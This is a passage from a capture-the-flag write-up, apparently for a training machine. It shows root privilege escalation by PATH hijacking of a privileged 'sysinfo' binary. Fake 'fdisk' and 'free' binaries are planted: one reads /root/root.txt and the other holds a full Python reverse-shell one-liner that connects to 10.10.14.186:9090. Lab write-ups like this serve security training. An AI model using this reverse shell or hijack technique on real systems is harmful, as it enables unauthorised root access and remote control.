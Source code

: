 executed with elevated privileges. Therefore, privilege can be elevated by hijacking any and all of these binaries.
<br>
The idea is that, duplicates of any or all of these binaries binaries are to be created and when the *sysinfo* binary
is executed with the current directory prefixed to **PATH** environment variable, these duplicates get executed instead.
To that effect, two duplicate binaries- **fdisk** and **free** had been created under the directory 
*/home/theseus/tmp* with the following content.
```bash
theseus@ubuntu:~/tmp$ echo "cat /root/root.txt" > fdisk 
echo "cat /root/root.txt" > fdisk 
theseus@ubuntu:~/tmp$ echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.186\",9090));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > free 
<);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > free 
theseus@ubuntu:~/tmp$ cat fdisk 
cat fdisk 
cat /root/root.txt 
theseus@ubuntu:~/tmp$ cat free 
cat free 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.186",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2
(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
As seen, the duplicate **fdisk** will print the contents of */root/root.txt* and the duplicate **free** will send a 
reverse shell to port *9090* of the attacking host. Both had been given executable permissions and the sysinfo binary 
was executed as ```PATH=.:$PATH /bin/sysinfo ```. This had resulted in printing the root flag on the terminal when fdisk 
gets executed and a reverse shell on the netcat listener when free gets executed. The same is shown on the section below.
```shell 
theseus@ubuntu:~/tmp$ chmod +x * 
chmod +x * 
theseus@ubuntu:~/tmp$ l 
l 
total 16 
drwxrwxr-x  2 theseus theseus 4096 Aug  5 09:50 . 
drwxr-xr-x 16 theseus theseus 4096 Aug  5 09:46 .. 
-rwxrwxr-x  1 theseus theseus   19 Aug  5 09:49 fdisk 
-rwxrwxr-x  1 theseus theseus  230 Aug  5 09:50 free 
theseus@ubuntu:~/tmp$ PATH=.:$PATH /bin/sysinfo 
PATH=.:$PATH /bin/sysinfo 
====================Hardware Info==================== 
H/W path           Device      Class      Description 
===================================================== 
                               system     VMware Virtual Platform 
/0                             bus        440BX Desktop Reference Platform 
---SNIP---
/0/46/0.0.0        /dev/cdrom  disk       VMware IDE CDR00 
/1                             system      
 
====================Disk Info==================== 
c1b5d---REDACTED---bbab6 
 
====================CPU Info==================== 
processor       : 0 
---SNIP---
 
 
====================MEM Usage===================== 

```